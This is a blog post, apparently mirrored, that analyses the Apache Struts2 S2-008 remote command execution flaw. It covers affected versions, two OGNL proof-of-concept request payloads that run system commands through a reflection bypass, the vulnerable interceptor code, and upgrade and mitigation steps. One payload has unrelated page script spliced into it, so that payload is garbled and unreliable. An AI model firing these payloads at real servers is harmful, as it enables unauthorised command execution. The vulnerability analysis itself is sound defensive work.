

# struts2 CVE-2012-0392 S2-008 Strict DMI does not work correctly allows remote command execution and arbitrary file overwrite - 郑瀚 Andrew - 博客园

> 原文：[`www.cnblogs.com/LittleHann/p/4614485.html`](https://www.cnblogs.com/LittleHann/p/4614485.html)

**catalog**

```
1. Description 2. Effected Scope 3. Exploit Analysis 4. Principle Of Vulnerability 5. Patch Fix
```

**1\. Description**

Struts2 框架存在一个 DevMode 模式，方便开发人员调试程序。如果启用该模式，攻击者可以构造特定代码导致 OGNL 表达式执行，以此对主机进行入侵
Remote command execution and arbitrary file overwrite, Strict DMI does not work correctly

**********Relevant Link:**********

```
http://help.aliyun.com/knowledge_detail.htm?spm=5176.7114037.1996646101.1.ZttC6m&categoryId=8314968&knowledgeId=5974950&pos=1
http://struts.apache.org/docs/s2-008.html?spm=5176.775974950.2.6.10ZZXb
```

**2\. Effected Scope**

```
Struts 2.1.0 - Struts 2.3.1
```

**3\. Exploit Analysis**

***0x1: POC***

```
http://localhost:8080/S2-016/hello.action?debug=command&expression= %23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime /* <![CDATA[ */!function(){try{var t="currentScript"in document?document.currentScript:function(){for(var t=document.getElementsByTagName("script"),e=t.length;e--;)if(t[e].getAttribute("cf-hash"))return t[e]}();if(t&&t.previousSibling){var e,r,n,i,c=t.previousSibling,a=c.getAttribute("data-cfemail");if(a){for(e="",r=parseInt(a.substr(0,2),16),n=2;a.length-n;n+=2)i=parseInt(a.substr(n,2),16)^r,e+=String.fromCharCode(i);e=document.createTextNode(e),c.parentNode.replaceChild(e,c)}}}catch(u){}}();/* ]]> */@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 
```

payload 调用 java 反射类(可以访问一些私有成员变量)绕过了 struts2 限制执行 java 静态方法的规则法的规则，因为 struts2 在 2.3.14.1 版本之后便设 置#_memberAccess["allowStaticMethodAccess"]为不可修改，而要调用 java 静态方法，必须要设置 allowStaticMethodAccess 为 true 才可以。这里使用

```
#f = #_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')
#f.setAccessible(true) 
#f.set(#_memberAccess, true) 
```

这里使用 java 的反射机制绕过了限制。另外，还有利用 java.lang.ProcessBuilder 类的 start()方法来实现(ProcessBuilder 类是用来创建系统进程的，每个实例管理一个进程属性集合，start 方法用来创建一个新的进程实例，并且可以从相同的实例中反复多次的初始化、创建子进程。随便构造一个 java.lang.ProcessBuilder 的实例，然后调用它的 start()方法，便达到命令执行的目的)

***0x2: POC2***

```
exp.action?name=(%23context["xwork.MethodAccessor.denyMethodExecution"]=+new+java.lang.Boolean(false),+%23_memberAccess["allowStaticMethodAccess"]=true,+%23a=@java.lang.Runtime@getRuntime().exec('ifconfig').getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)('meh')]
```

**4\. Principle Of Vulnerability**

我们知道，参数类型转换、拦截器机制是 struts2 的 MVC 核心机制，从字面上看，"拦截器"似乎是在起防御/阻断作用，但是拦截器本质上是一个输入检查、转换机制框架，而 OGNL 表达式充当了输入载体的功能，借助于 OGNL 表达式，struts2 框架将用户的输入值"正确"地转换为 Action 中对应的属性，但是漏洞也同样出现在这些拦截器上，struts2 原生的一些拦截器本身在解析 OGNL 表达式，转换输入参数的时候存在漏洞，导致攻击者可以直接实现代码注入
To prevent attackers calling arbitrary methods within parameters the flag xwork.MethodAccessor.denyMethodExecution is set to true and the SecurityMemberAccess field allowStaticMethodAccess is set to false by default. Also, to prevent access to context variables an improved character whitelist for parameter names is applied in the ParameterInterceptor since Struts 2.2.1.1:

```
acceptedParamNames = "[a-zA-Z0-9\.][()_']+";
```

Under certain circumstances these restrictions can be bypassed to execute malicious Java code.

```
1. Remote command execution in Struts <= 2.2.1.1 (ExceptionDelegator)
When an exception occurs while applying parameter values to properties, the value is evaluated as an OGNL expression. For example, this occurs when setting a string value to an integer property. Since the values are not filtered an attacker can abuse the power of the OGNL language to execute arbitrary Java code leading to remote command execution. This issue has been reported (https://issues.apache.org/jira/browse/WW-3668) and was fixed in Struts 2.2.3.1\. However the ability to execute arbitrary Java code has been overlooked.

2. Remote command execution in Struts <= 2.3.1 (CookieInterceptor)
The character whitelist for parameter names is not applied to the CookieInterceptor. When Struts is configured to handle cookie names, an attacker can execute arbitrary system commands with static method access to Java functions. Therefore the flag allowStaticMethodAccess can be set to true within the request. 3. Arbitrary File Overwrite in Struts <= 2.3.1 (ParameterInterceptor)
While accessing the flag allowStaticMethodAccess within parameters is prohibited since Struts 2.2.3.1 an attacker can still access public constructors with only one parameter of type String to create new Java objects and access their setters with only one parameter of type String. This can be abused in example to create and overwrite arbitrary files. To inject forbidden characters into a filename an uninitialized string property can be used. 4. Remote command execution in Struts <= 2.3.1 (DebuggingInterceptor)
While not being a security vulnerability itself, please note that applications running in developer mode and using the DebuggingInterceptor are prone to remote command execution as well. While applications should never run in developer mode during production, developers should be aware that doing so not only has performance issues (as documented) but also a critical security impact.
```

Struts2 框架存在一个 devmode 模式，方便开发人员调试程序，但是默认 devmode 是不开启的，如果想要使用，需要手动修改参数，可以将 struts.properties 中的 devmode 设置为 true，或是在 struts.xml 中添加如下代码

```
<constant name="struts.devMode" value="true" /> 
```

实际上 devmode 依赖于 struts2 底层的 struts2-core.jar 中的 DebuggingInterceptor.java 实现，漏洞也存在于此程序中
org.apache.struts2.interceptor.debugging.DebuggingInterceptor.class

```
..
private final static String CONSOLE_MODE = "console";
private final static String COMMAND_MODE = "command";
private final static String BROWSER_MODE = "browser";
..
```



这意味着攻击者可以使用 devmode 的任意一种模式，并借助 OGNL 表达式进行攻击，继续往下跟踪代码，来到 DebuggingInterceptor.java 的 intercept()方法，这个方法里实现了该拦截器的逻辑

```
..
try {
                    PrintWriter writer = ServletActionContext.getResponse().getWriter();
                    writer.print(stack.findValue(cmd));
                    writer.close();
                } catch (IOException ex) {
                    ex.printStackTrace();
                }
..
```


这里 cmd 没做任何处理，后面直接执行 findValue(findValue 能够执行 OGNL 表达式)

```
findValue(String expr)
Finds a value from the OGNL stack based on the given expression.
```

**************Relevant Link:************** 

```
https://struts.apache.org/maven/struts2-core/apidocs/org/apache/struts2/components/Component.html 
http://drops.wooyun.org/papers/902
```

**5\. Patch Fix**

*****0x1: upgrade struts2*****

```
It is strongly recommended to upgrade to Struts 2.3.1.1, which contains the corrected classes.
```

***0x2: Mitigation Workaround***

Update to Struts 2.3.1 and apply a stronger acceptedParamNames filter to the ParameterInterceptor and CookieInterceptor:

```
acceptedParamNames = "[a-zA-Z0-9\.][()_']+";
```

***0x3: 手工修复方法***

```
1. 在 struts.xml 中添加新的拦截器，针对利用 OGNL 表达式对#_memberAccess 修改、利用反射进行动态属性值修改等方式进行检测和阻断 2. 配置 struts.xml，关闭 debug 模式
```

***************Copyright (c) 2015 Little5ann All rights reserved***************